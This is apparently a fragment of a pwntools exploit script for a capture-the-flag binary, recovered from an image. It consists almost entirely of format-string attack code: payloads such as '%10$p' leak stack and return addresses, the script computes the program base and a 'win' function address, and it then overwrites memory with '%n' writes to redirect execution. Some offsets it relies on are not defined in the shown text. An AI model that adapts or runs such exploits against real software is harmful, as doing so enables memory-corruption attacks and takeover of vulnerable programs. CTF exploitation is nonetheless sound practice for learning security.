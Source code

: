     payload = "a"*25+"%10$p"
    
    p.sendafter("Name: ",payload)
    p.sendlineafter("> ","2")
    
    tmp=int(p.recv(10),16)
    
    vuln_ret_addr = tmp-0xc
    
    log.info(hex(tmp))
    
    p.sendlineafter("> ","1")
    
    payload = "a"*25+"%11$p"
    
    p.sendafter("Name: ",payload)
    p.sendlineafter("> ","2")
    vuln_ret=int(p.recv(10),16)
    
    log.info(hex(vuln_ret))
    
    base_addr=vuln_ret-vuln_offset #0xa77
    
    win_addr=base_addr+win_offset  #0x9fd
    win_addr_a = win_addr & 0xffff
    win_addr_b = (win_addr >> 16) & 0xffff
    
    cmd_addr=base_addr+cmd_offset
    
    tmp_1=( base_addr+0x2000 & 0xffffff00 ) | 1
    tmp_2=( base_addr+0x2000 & 0xffffff00 ) | 2
    
    payload="a"*25+"AA%6$n"
    
    p.sendlineafter("> ",str(tmp_1))
    p.sendafter("Name: ",payload)
    p.sendlineafter("> ",str(tmp_2))
    
    for i in range(10):
        p.sendlineafter("> ",str(cmd_addr+38+i))
        log.info(hex(cmd_addr+38+i))
    
    log.info("vuln ret :: "+hex(vuln_ret_addr))
    log.info("vuln ret orogin:: " +hex(vuln_ret))
    log.info("cmd :: "+hex(cmd_addr))
    #gdb.attach(p)
    
    log.info("win_addr == "+hex(win_addr))
    log.info("win_addr_b == "+hex(win_addr_b))
    log.info("win_addr_a == "+hex(win_addr_a))
    log.info("tmp_1 ==" +hex(tmp_1))
    log.info("tmp_2 =="+hex(tmp_2))
    
    payload2="%"+str(win_addr_a-12)+"c%6$n\x00"
    p.sendlineafter("> ",str(tmp_1))
    p.recvuntil("Name: ")
    p.send(payload2)
    
    p.recvuntil("> ")
    p.sendline(str(vuln_ret_addr-0x100000000))
    